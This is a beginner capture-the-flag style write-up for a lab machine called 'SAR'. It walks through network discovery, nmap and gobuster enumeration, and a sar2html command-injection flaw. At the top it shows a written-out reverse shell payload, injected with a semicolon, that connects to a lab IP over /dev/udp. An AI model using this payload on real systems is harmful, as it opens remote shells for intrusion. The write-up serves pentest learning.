

https://www.exploit-db.com/exploits/47204
;bash -c 'bash -i >& /dev/udp/192.168.66.191/4242 0>&1'
# SAR

## Introduction

This box is designed to help beginner pentester to get familiar with some pentesting concepts like shell reversing and privilege escalation.

## Information

### Access

### Key Processes

[Describe processes that are running to provide basic services on the box, such as webserver, ftp, etc. For any custom binaries, include source code (in a separate file unless very short). Also include if any of the services or programs are installed intentionally vulnerable versions.].

This machine hosts an apache web server, and uses the sar2html tool.

## Writeup

After running the machine, the first thing we encounter is the ubuntu authentificator, and find that there is a user called love. 
<br>
But before starting the enumeration phase, we need to get the ip adress of the machine, and to do so we need to run the command netdiscover 
```
sudo netdiscover
```
<br>
Now that we have the ip adress, we can run nmap 

## Enumeration

### Nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.66.153
```
<br>

We can see that there is one port open (port:80:http), but after checking out its content on the browser it seems to be the apache default page.

<br>

### Directory bruteforcing

To check if there are other directories, I used gobuster to bruteforce any existing files or directories in the current directory.
```
gobuster -w ./wordslist2.txt -u 192.168.66.153
```
<br>
And we found that there is a robots txt file that pointed us to the right direction.
<br>

### Understanding the vulnerability
Sar2html is a tool that comes with most linux machines, and was found to be vulnerable in version 3.2.1: https://www.exploit-db.com/exploits/47204 . The attacker can manipulate the plot variable to inject command line code into the machine.


### Reverse shell
In order to work freely, I sent an http request with a reverse shell command: 
<br>
And used netcat to intercept the communication on my host machine
<br>
